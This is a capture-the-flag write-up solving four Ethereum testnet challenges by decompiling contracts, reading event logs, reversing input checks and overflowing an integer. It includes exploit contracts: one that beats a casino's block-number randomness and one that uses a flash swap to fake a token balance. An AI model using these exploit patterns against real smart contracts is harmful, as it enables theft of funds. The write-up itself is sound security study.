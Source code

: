 # Blockchain

- [Blockchain](#blockchain)
  - [sanity check](#sanity-check)
    - [Cheeky Way](#cheeky-way)
  - [secure_enclave](#secure_enclave)
  - [crackme.sol](#crackmesol)
    - [Cheeky Way](#cheeky-way-1)
  - [crypto casino](#crypto-casino)
    - [Cheeky Way](#cheeky-way-2)
  - [RICH CLUB](#rich-club)
    - [The Correct Way To Do It](#the-correct-way-to-do-it)
      - [The Exploit](#the-exploit)
      - [The Problem](#the-problem)

Most of these challenges had two possible solutions,
the intended solution and the cheeky solution.
I'll start with the intended solutions and go through the cheeky one in the end.

Notice that you can do all these challenges yourself.
Since **_nothing leaves the chain_**.

An Ethreum wallet is required. For this writeup though, I assume you have one.

> *If you do not have a wallet, head on to <https://hackernoon.com/how-to-use-remix-and-metamask-to-deploy-smart-contracts-on-the-rsk-testnet-zt393xfz>, the link goes through the necessary details to setup a Metamask wallet and Remix.*

## sanity check

We were given an address (`0x5CDd53b4dFe8AE92d73F40894C67c1a6da82032d`) and a contract which is fairly simple:

```solidity
pragma solidity ^0.7.0;
//SPDX-License-Identifier: UNLICENSED

contract sanity_check {
    function welcome() public pure returns (string memory){
        return "flag{}";
    }
}
```

We just need to call the contract and get the flag.
To do so we can setup an elaborate JS environment with truffle and friends,
or we can use the Remix IDE (https://remix.ethereum.org/).

Create a file and put the contract source there.
Once compiled, the *Deploy & Run Transactions* tab should look like this:

<img src="images/deploy_run.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

Adding the challenge address to that *At Address* and clicking on it should add a new contract to the *Deployed Contracts* below.
Click on the `welcome` function, the flag should appear.

<img src="images/at_addres_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

> If nothing appears, try to reload the page. Remix can be a bit temperamental.

### Cheeky Way

Search for the contract on Etherscan, decompile it, get the flag.

<https://rinkeby.etherscan.io/bytecode-decompiler?a=0x5cdd53b4dfe8ae92d73f40894c67c1a6da82032d>

## secure_enclave

For this challenges we were given a "secure" enclave.
In this case, a wallet owner can set a secret and only the owner can read it back.

```solidity
pragma solidity ^0.6.0;

contract secure_enclave {
    event pushhh(string alert_text);

    struct Secret {
        address owner;
        string secret_text;
    }

    mapping(address => Secret) private secrets;

    function set_secret(string memory text) public {
        secrets[msg.sender] = Secret(msg.sender, text);
        emit pushhh(text);
    }

    function get_secret() public view returns (string memory){
        return secrets[msg.sender].secret_text;
    }
}
```

To achieve this, the contract uses that `mapping` which is a map between addresses and `Secret`.
So our only option to retrieve the secret would be to guess the flag's owner address and pretend to be them.
That does not sound easy, and it is not even possible without getting access to the original wallet.

However, whenever a secret is stored a message is emitted.
Emitted events are stored in the transactions logs, they are used as debug and auditing tools.
Since they are stored in the logs, and logs are permanent, sensitive information should not be logged.

> Read more about events in <https://docs.soliditylang.org/en/v0.8.0/contracts.html#events>.

Notice how whenever a secret is set, an event is emitted.
This means that at a given time the flag was probably logged, we just need to retrieve it.
To do so we search for the challenge address (`0x9B0780E30442df1A00C6de19237a43d4404C5237`) in <https://rinkeby.etherscan.io/>.

> Etherscan is where you can search for transactions, wallets and more. If it has an address, it is probably there.

Going back to the start of transactions in <https://rinkeby.etherscan.io/txs?a=0x9B0780E30442df1A00C6de19237a43d4404C5237>
shows us a series of transactions from the same account that issued the contract. Bingo.
We just need to search the logs one by one until we get the flag.

For example: The first transaction stored the value `first`.

<img src="images/secure_enclave_first.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;">


> To convert from hexadecimal to text, select the menu on the numbers left and select `Number`.

<img src="images/secure_enclave_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;">


## crackme.sol

This one almost *cracked me* (get it?), but I'll get to why later. We are given a crack me:

```solidity
pragma solidity ^0.6.0;

contract crack_me{

    function gib_flag(uint arg1, string memory arg2, uint arg3) public view returns (uint[]){
        //arg3 is a overflow
        require(arg3 > 0, "positive nums only baby");
        if ((arg1 ^ 0x70) == 20) {
            if(keccak256(bytes(decrypt(arg2))) == keccak256(bytes("offshift ftw"))) {
                uint256 check3 = arg3 + 1;
                if( check3< 1) {
                    return flag;
                }
            }
        }
        return "you lost babe";
    }

    function decrypt(string memory encrypted_text) private pure returns (string memory){
        uint256 length = bytes(encrypted_text).length;
        for (uint i = 0; i < length; i++) {
            byte char = bytes(encrypted_text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(encrypted_text,0x20), mul(i,1)), sub(char,16))}
            }
        }
        return encrypted_text;
    }
}
```

When we put this code in Remix, we immediately notice it does not compile.
So we whip up real quick to make it compile, like changing the output to `string memory` and make the flag variable a `string`. Like this:

```solidity
function gib_flag(uint arg1, string memory arg2, uint arg3) public view returns (string memory){
    //arg3 is a overflow
    require(arg3 > 0, "positive nums only baby");
    if ((arg1 ^ 0x70) == 20) {
        if(keccak256(bytes(decrypt(arg2))) == keccak256(bytes("offshift ftw"))) {
            uint256 check3 = arg3 + 1;
            if (check3 < 1) {
                return "flag";
            }
        }
    }
    return "you lost babe";
}
```

Let's start reversing. We can start by the `gib_flag` function.
It takes three arguments: `uint arg1`, `string memory arg2`, `uint arg3`.

Line by line we read straight away:

```solidity
//arg3 is a overflow
require(arg3 > 0, "positive nums only baby");
```

So the author told us what to do and we can check that it is an overflow in the last check:

```
uint256 check3 = arg3 + 1;
if (check3 < 1) {
    return "flag";
}
```

So `arg3` must be `2 ** 256 - 1`.
Moving on to the remaining arguments, we see that `arg1 ^ 0x70` must be equal to `20`.
This is also easy, we have `a ^ b = c` where we know `b` and `c`, so we XOR them together and get the result.
`0x70 ^ 0x20 = 80`, `arg1` is done.

Moving on to the last and most difficult.
I started reversing it by hand and noticed it was some kind of Caesar cipher.
But then I noticed I could fairly easy manipulate the characters one by one and crack it that way.

Since the decrypt function was private, I copied the code to a separate contract, deployed it started experimenting.
You can access it here (`0x71018b714767d056edBcf788bb8494AEE2e129f4`).

```solidity
contract helper {
    function decrypt(string memory encrypted_text) public pure returns (string memory){
        uint256 length = bytes(encrypted_text).length;
        for (uint i = 0; i < length; i++) {
            byte char = bytes(encrypted_text)[i];
            assembly {
                char := byte(0,char)
                if and(gt(char,0x60), lt(char,0x6E))
                { char:= add(0x7B, sub(char,0x61)) }
                if iszero(eq(char, 0x20))
                {mstore8(add(add(encrypted_text,0x20), mul(i,1)), sub(char,16))}
            }
        }
        return encrypted_text;
    }
}
```

While I did it the dumb way, the smart way was noticing the shift would wrap around for lowercase letters,
see that it was a ROT16 cipher and go to CyberChef <https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,16)&input=b2Zmc2hpZnQgZnR3> to find that `arg2` is `evvixyvj vjm`.

We have our ingredients to lets try to get the flag.
Add the address of the contract as we did with the first contract,
get the small window on remix and send:

<img src="images/crackme_string.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

So what happened? Remember how we switched the function signature to `string`?
That's the problem (the start). Let us change it back to `uint[]`, keep the `memory` and replace the strings with `new(uint[])`.
Use the `At Address` again and retry.

<img src="images/crackme_buffer.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

> So what now?

See the problem is we did not give a size for the flag.
The array must have a size in the return function.
Give it one like `256`, make sure there is enough space!

About the return value, create a variable like `uint256[256] memory f` and just return that.

<img src="images/crackme_flag.png" style="display: block; margin-left: auto; margin-right: auto; width: 40%;">

I'll drop the charade now, the correct size is `26`.
How did I figure it out? By starting at `1` and changing incrementally.

```python
flag = [67,48,110,103,114,64,55,53,95,89,48,117,95,67,82,64,67,75,51,68,95,109,51,56,53,52]
print("".join(map(chr, flag))
> 'C0ngr@75_Y0u_CR@CK3D_m3854'
```

How could you know the array size?
You could decompile the code and notice the `while idx < 26` there.

### Cheeky Way

Just like the first, decompile and look at the code (<https://rinkeby.etherscan.io/bytecode-decompiler?a=0xdb2f21c03efb692b65fee7c4b5d7614531dc45be>).

You'll notice this block of code:
```
mem[_40] = 51
mem[_40 + 32] = 64
mem[_40 + 64] = 30
mem[_40 + 96] = 23
mem[_40 + 128] = 2
mem[_40 + 160] = 48
mem[_40 + 192] = 71
mem[_40 + 224] = 69
mem[_40 + 256] = 47
mem[_40 + 288] = 41
mem[_40 + 320] = 64
mem[_40 + 352] = 5
mem[_40 + 384] = 47
mem[_40 + 416] = 51
mem[_40 + 448] = 34
mem[_40 + 480] = 48
mem[_40 + 512] = 51
mem[_40 + 544] = 59
mem[_40 + 576] = 67
mem[_40 + 608] = 52
mem[_40 + 640] = 47
mem[_40 + 672] = 29
mem[_40 + 704] = 67
mem[_40 + 736] = 72
mem[_40 + 768] = 69
mem[_40 + 800] = 68
```

Followed by `mem[(32 * idx) + _35] = uint8(112 xor mem[(32 * idx) + _40])`. So we can just.

```python
enc_flag = [51,64,30,23,2,48,71,69,47,41,64,5,47,51,34,48,51,59,67,52,47,29,67,72,69,68]
print("".join([chr(c ^ 112) for c in enc_flag]))
> 'C0ngr@75_Y0u_CR@CK3D_m3854'
```

Easy.

## crypto casino

This one is fairly easy and the exploit is really cool.

```solidity
pragma solidity ^0.6.0;

contract casino {
    bytes32 private seed;
    mapping(address => uint) public consecutiveWins;

    constructor () public{
        seed = keccak256("satoshi nakmoto");
    }

    function bet(uint guess) public{
        uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;
        if (guess == num) {
            consecutiveWins[msg.sender] = consecutiveWins[msg.sender] + 1;
        } else {
            consecutiveWins[msg.sender] = 0;
        }
    }

    function done() public view returns (uint16[] memory) {
        if (consecutiveWins[msg.sender] > 1) {
            return [];
        }
    }
}
```

We need to guess the result twice to get the flag.
Everything is deterministic, the seed, the XOR, the hash and the ABI call.
Almost everything! The `block.number` is not.

Before searching Google, how could we guess it?
Maybe see the last block by hand and try.
But that would not work, the transactions are queued, and we never know the final block.
We could bruteforce it but whenever one guess fails we are back to the start.

So, searching Google on how to predict the block number you would probably find this:
<https://medium.com/@saurfang/lets-play-capture-the-ether-lotteries-part-ii-478365775a34>.

Reading through it you'll find that *you* can't predict the block number.
But your contract can.
And Ethereum has this *looking back its obvious property* that if the contract calls another one,
all operations must be put into the same block, for consistency reasons.

So, to break the casino you just need to replicate the "random" number generation and call the bet twice from your code.
The exploit looks like the following:

```solidity
contract exploit {
    bytes32 private seed;
    constructor () public{
        seed = keccak256("satoshi nakmoto");
    }

    function bet() public {
        uint num = uint(keccak256(abi.encodePacked(seed, block.number))) ^ 0x539;
        casino c = casino(0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59);
        c.bet(num);
        c.bet(num);
    }
}
```

After running you can call `consecutiveWins` on the contract they gave you (0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59).
To get the flag you need to call done, the strategy to get the array size is the same as the previous challenge.

```python
flag = [102,108,97,103,123,68,51,67,78,55,82,64,108,49,90,51,68,95,67,64,53,49,78,48,83,95,53,117,99,107,53,51,49,125]
"".join(map(chr, flag))
> flag{D3CN7R@l1Z3D_C@51N0S_5uck531}
```

### Cheeky Way

Just like the previous challenge, head on to <https://rinkeby.etherscan.io/bytecode-decompiler?a=0x186d5d064545f6211dD1B5286aB2Bc755dfF2F59> and decompile the code.

The values are different but that is not a problem.

```
mem[4448] = 51000
mem[4480] = 15 * 3600
mem[4512] = 48500
mem[4544] = 51500
mem[4576] = 61500
mem[4608] = 34000
mem[4640] = 25500
mem[4672] = 33500
mem[4704] = 39000
mem[4736] = 27500
mem[4768] = 41000
mem[4800] = 32000
mem[4832] = 15 * 3600
mem[4864] = 24500
mem[4896] = 45000
mem[4928] = 25500
mem[4960] = 34000
mem[4992] = 47500
mem[5024] = 33500
mem[5056] = 32000
mem[5088] = 26500
mem[5120] = 24500
mem[5152] = 39000
mem[5184] = 24000
mem[5216] = 41500
mem[5248] = 47500
mem[5280] = 26500
mem[5312] = 58500
mem[5344] = 49500
mem[5376] = 53500
mem[5408] = 26500
mem[5440] = 25500
mem[5472] = 24500
mem[5504] = 62500
```

Just do the same as they do: `mem[(32 * idx) + 2272] = uint16(mem[(32 * idx) + 4478 len 2] / 500)`

```python
enc_flag = [51000,15 * 3600,48500,51500,61500,34000,25500,33500,39000,27500,41000,32000,15 * 3600,24500,45000,25500,34000,47500,33500,32000,26500,24500,39000,24000,41500,47500,26500,58500,49500,53500,26500,25500,24500,62500]
print("".join([chr(c // 500) for c in enc_flag]))
> flag{D3CN7R@l1Z3D_C@51N0S_5uck531}
```

## RICH CLUB

This final challenge was added as a tie-breaker. It was awful and as far as I am aware no one actually pulled off the correct way to solve the challenge.
I'll start by discussing the contract and then introduce the solution I used and the solution I should have used.

```solidity
pragma solidity ^0.6;
//SPDX-License-Identifier: MIT

interface ERC20 {
    function balanceOf(address account) external view returns (uint256);
}

contract RICH_CLUB {
    ERC20 UNI;
    event new_member(string pub_key);
    event send_flag(string pub_key, string flag);

    constructor() public{
        UNI = ERC20(0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984);
    }

    function grant_membership(string memory _pub_key) public {
        require(bytes(_pub_key).length > 120, "invalid public key");
        require(UNI.balanceOf(msg.sender) >= 6e20, "you don't look rich to me");
        emit new_member(_pub_key);
    }

    function grant_flag(string memory _pub_key, string memory encoded_flag) public{
        require(msg.sender == address(0x30cE246A1282169895bf247abaE77BA69d5B2416), "you don't have access to this");
        emit send_flag(_pub_key, encoded_flag);
    }
}
```

The contract is simple, there are two functions `grant_membership` and `grant_flag`.
We are supposed to enter the club and a bot should grant us membership.
To enter the club, we send a public key and the function will check if we meet the requirements.

The public key had to be Ethereum compliant, which is `secp256k1`, you can generate a key-pair with `openssl`.
See here for more <http://www.herongyang.com/EC-Cryptography/EC-Key-secp256k1-with-OpenSSL.html>.

So, after generating a valid key we need to pass the second check, having `6e20` UNI coins in our account.
This is around 10 ETH, which we can easily get from a faucet.
To get the coin can go to <https://app.uniswap.org/#/swap> and swap them out.

This would yield the required coin, we would pass the check and an encrypted flag would be emitted.

> This is the only challenge that is not doable after the CTF since the flag emitter is a bot.
> I believe the bot is probably down.

The successful transaction looks like this: <https://rinkeby.etherscan.io/tx/0x0a60eb958bd34785c3e4cf06ad961ad66c1ac04401ad6ffb4cbb158e32eba46f#eventlog>.
The reply is in: <https://rinkeby.etherscan.io/tx/0xc5c7c98c7336422a3df076766444399ded7d68a907678f26950ec95264e1febc#eventlog>.

Converting the second part of the log to text would yield a Python byte string which we had to decrypt.
To do so, I used `ecies` (<https://github.com/ecies/py> their page is great to know more!).

You would write the following code (where `k` is your private key and `i` the received byte string).

```python
import ecies
ecies.decrypt(k, i)
> b'flag{l0@ns_ar3nt_7ha7_b@d_tbh8877}'
```

### The Correct Way To Do It

So, what makes this the right way to do it? Well, the admins said so.
I'll walk you through my process.

When the challenge came out, I had been snooping around the authors contracts.
While I didn't find anything interesting before, I did after.
I noticed the author of the challenge contract deployment had made some transactions to the contract, which failed.

This was one of them: <https://rinkeby.etherscan.io/tx/0xd69cc825db48b8d7083f76622002e3cbdba692444262a74c1b06bbead20c2576>.
Clicking in see more we can see:

```
Function: flashSwap(address _tokenBorrow, uint256 _amount, address _tokenPay, bytes _userData) ***

MethodID: 0x0322c064
[0]:  0000000000000000000000001f9840a85d5af5bf1d1762f925bdaddc4201f984
[1]:  00000000000000000000000000000000000000000000002086ac351052600000
[2]:  0000000000000000000000001f9840a85d5af5bf1d1762f925bdaddc4201f984
[3]:  0000000000000000000000000000000000000000000000000000000000000080
[4]:  0000000000000000000000000000000000000000000000000000000000000040
[5]:  f2d02606c02b1db40951e1dfc2432a851e41e652947d68ff009c0e09bb8990ea
[6]:  5417592a2785e4817d65a55c185d8f2be64643265a8b5464165f8e121cb75140
```

From here, I searched for `flashSwap` on Google and found Uniswap, which allows for such kind of transactions <https://uniswap.org/docs/v2/smart-contract-integration/using-flash-swaps/>.
So why is this relevant?

Flash swaps allow you to pretend to have the tokens, you ask for them to Uniswap,
they lend you the tokens and in the end of the transaction you return them.

This is all fine and dandy until you notice the API is a mess and imports in Remix don't really work that well.
During my search for a better method I found: <https://github.com/Austin-Williams/uniswap-flash-swapper>, which is the actual code used in the previous Etherscan link.

#### The Exploit

Following the provided examples, getting the code to run is easy.

```solidity
contract ExampleContract is UniswapFlashSwapper {
    constructor(address _DAI, address _WETH) public UniswapFlashSwapper(_DAI, _WETH) {}

    function flashSwap(address _tokenBorrow, uint256 _amount, address _tokenPay, bytes calldata _userData) external {
        startSwap(_tokenBorrow, _amount, _tokenPay, _userData);
    }

    function execute(address _tokenBorrow, uint _amount, address _tokenPay, uint _amountToRepay, bytes memory _userData) internal override {
        RICH_CLUB club = RICH_CLUB(0xC7bEc01281648D3A7F9BB86B811A2de5B1E0cc61);
        string memory pub_key = "04df58e67b36a2de27b51e3673ed0040db93a44c71029071170dca30d98fb65b5b34b2c3009f3e031640f46924967db0651a750052a1cdafa577a50d0883ed1808";
        club.grant_membership(pub_key);
    }
}
```

Now you deploy with the ERC20 (`0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984`) and WETH (`0xc778417E063141139Fce010982780140Aa0cD5Ab`) addresses and call the `flashSwap` functions with the following parameters:
- `0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984`
- `600000000000000000000`
- `0xc778417E063141139Fce010982780140Aa0cD5Ab`
- `[0]`

This would execute the trade and call the function in `execute`.

You could also deploy a contract that did all this for you, in this case the contract would encode the function `f()` and pass it as bytecode:

```solidity
contract Exploit {
    function f() public {
        RICH_CLUB club = RICH_CLUB(0xC7bEc01281648D3A7F9BB86B811A2de5B1E0cc61);
        string memory pub_key = "04df58e67b36a2de27b51e3673ed0040db93a44c71029071170dca30d98fb65b5b34b2c3009f3e031640f46924967db0651a750052a1cdafa577a50d0883ed1808";
        club.grant_membership(pub_key);
    }

    function run() public {
        ExampleContract ec = ExampleContract(0xE1637EDDFaeabbfd9FE616E34581D62D0E839368);
        bytes memory payload = abi.encodeWithSignature("f()");
        ec.flashSwap(0x1f9840a85d5aF5bf1D1762F925BDADdC4201F984, 600000000000000000000, 0xc778417E063141139Fce010982780140Aa0cD5Ab, payload);
    }
}
```

This would grant you membership and allow you to access the club.
I was ready to first blood the challenge, so what went wrong?

#### The Problem

The code wouldn't work, why? I still don't know, but I knew for sure it ran all the functions right.
From my experiments, it was not my problem, but rather the code I got from GitHub.
I believe it was not returning the tokens correctly.

I also did not find the error since the error was `[object Object]`.
*Remix being helpful*.
